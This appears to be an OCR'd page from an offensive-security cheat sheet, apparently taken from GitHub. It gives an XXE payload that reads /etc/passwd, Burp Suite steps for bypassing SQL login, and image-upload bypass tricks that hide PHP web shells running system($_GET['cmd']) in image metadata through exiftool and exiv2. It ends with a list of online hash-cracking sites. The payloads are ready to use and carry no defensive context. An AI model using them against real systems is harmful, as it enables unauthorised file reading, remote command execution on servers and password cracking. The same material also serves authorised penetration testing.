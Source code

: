```
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>hack  &book;</thp>


#Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack
%26book%3B</thp>

```
#### Sql-login Bypass

>Open Burp-suite
Make and intercept a request
Send to intruder
Cluster attack.
Paste in sqlibypass-list 
    https://bobloblaw.gitbooks.io/security/content/sql-injections.html
Attack
Check for response length variation

#### Bypass img Upload 

```
Change extension: .pHp3 or pHp3.jpg
Modify mimetype: Content-type: image/jpeg
Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
Add gif header: GIF89a;
All at the same time.
# inject PHP into img

exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' shell.jpeg

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg

```

#Online crackers

https://hashkiller.co.uk/Cracker
https://www.cmd5.org/
https://www.onlinehashcrack.com/
https://gpuhash.me/
https://crackstation.net/
https://crack.sh/
https://hash.help/
https://passwordrecovery.io/
http://cracker.offensive-security.com/
